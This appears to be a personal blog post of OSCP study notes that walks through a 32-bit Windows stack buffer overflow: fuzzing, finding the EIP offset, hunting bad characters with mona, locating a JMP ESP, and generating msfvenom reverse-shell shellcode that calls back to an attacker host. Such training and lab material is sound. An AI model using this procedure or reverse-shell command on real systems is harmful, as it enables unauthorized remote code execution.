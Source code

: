 ```yaml
---
layout: post
title: Binary Exploitation (a *very* brief overview)
description: Binary Exploitation
date: 2022-05-05
Last Updated: 2022-05-05
---
```

# Binary Exploitation

During my studies to become OSCP certified I studied quite a bit but never delved too far into binary exploitation.  Here are a few takeaways and things that I occasionally look back at.  Mostly here's the high-level operational view.  Mind you, this is for a 32bit windows app lol

## Guide

1\. Start Immunity/app as administrator

#### 2. Confirm connectivity from kali

```
nc xxx.xxx.xxx.xxx port
```

#### 3. Fuzz for crash (Template - Fuzzer )

```
python3 fuzzer.py
```

#### 4. Generate cyclic pattern to find exact crash

```
[root@kali:/root]# cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
```

#### 5. Add pattern to "overflow" in exploit.py and repro crash

#### 6. Get offset from address in EIP and set "offset"

Get address in EIP and find number of bytes to EIP:

```
[root@kali:/r/c/CMBOF]# cyclic -l 0x61616275
2003
```

#### 7. Remove cyclic pattern from "overflow" and replace with "A" \* offset

```
offset = 634 # EIP @ 0x616A6761
overflow = b"A" * offset
eip = b"BBBB" # 
```

#### 8. Replicate crash and confirm "B" in EIP

#### 9. Find Bad Characters with mona

* Set working dir: `!mona config -set workingfolder C:\Windows\Temp`
* Create bytearray (without bad chars we know about) `!mona bytearray --cpb "\x00"`
* Include list chars in payload (without \x00)

```
badchars = [0x00] # start with null
```

* Repro crash with charpayload
* After the crash use mona to find the next bad char: `!mona compare -f C:\Windows\Temp\bytearray.bin -a esp`
* Note new bad char, add it to "badchars"
* Repeat steps until no new bad chars are reported

#### 10. Find Jump Point using bad chars (running or crashed) - will be in "Log Data" window

```
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```

#### 11. Put jmp address in "eip" var backwards (little endian)

```
eip = b"\xfa\x11\x50\x62" # 625011AF
```

#### 12. Generate shellcode without bad chars and add as "sc" var

```
[root@kali:/r/c/t/O/OVERFLOW2]# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.4.230 LPORT=6666 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f python -v sc
```

#### 13. Add shellcode

#### 14. Add NOPs and comment out "charpayload"

```
padding = b"\x90" * 16
```



### Links

More questions?

* [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood)
* [Exploit Development with PEDA and Pwntools](http://thecyberrecce.net/2017/07/28/exploit-development-with-afl-peda-and-pwntools/)
* [Hacktober CTF Challenge](https://veteransec.com/2018/10/19/hacktober-ctf-2018-binary-analysis-larry/)
* [\* Pwntools \*](https://github.com/Gallopsled/pwntools)
* [Rop Emporium](https://ropemporium.com)
* [Stack Based Overflows](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)



